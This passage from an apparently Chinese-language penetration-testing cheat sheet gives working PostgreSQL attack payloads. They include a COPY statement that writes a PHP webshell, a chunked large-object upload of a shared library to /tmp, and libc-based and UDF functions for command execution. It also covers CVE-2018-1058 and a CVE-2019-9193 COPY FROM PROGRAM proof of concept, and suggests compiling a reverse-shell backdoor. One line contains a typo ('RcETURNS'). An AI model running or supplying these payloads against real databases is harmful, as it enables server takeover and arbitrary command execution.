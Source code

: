```sql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```

**PostgreSQL 写文件2**

利用分片进行上传，首先创建一个 OID 作为写入的对象, 然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 / tmp 目录下, 收尾删除 OID

```sql
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('7f454c4...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('0000000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('f604000...0000', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('0000000...7400', 'hex'));
SELECT lo_export(12345, '/tmp/test.so');
SELECT lo_unlink(12345);
```

**调用本地 so 文件命令执行**

一般8.2以下的版本可以
```sql
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE C STRICT;
CREATE FUNCTION system(cstring) RcETURNS int AS '/lib64/libc.so.6', 'system' LANGUAGE C STRICT;
select system('id');
```

**利用 UDF 命令执行**

需要编译好的 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的
- https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql

**CVE-2018-1058 PostgreSQL 提权漏洞**
- 概述

    PostgreSQL 其 9.3 到 10 版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

- POC | Payload | exp
    - [PostgreSQL 提权漏洞（CVE-2018-1058）](https://vulhub.org/#/environments/postgres/CVE-2018-1058/)

**CVE-2019-9193 PostgreSQL 高权限命令执行漏洞**
- 概述

    PostgreSQL 其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

- 相关文章
    - [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

- POC | Payload | exp
    ```sql
    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;
    ```

---
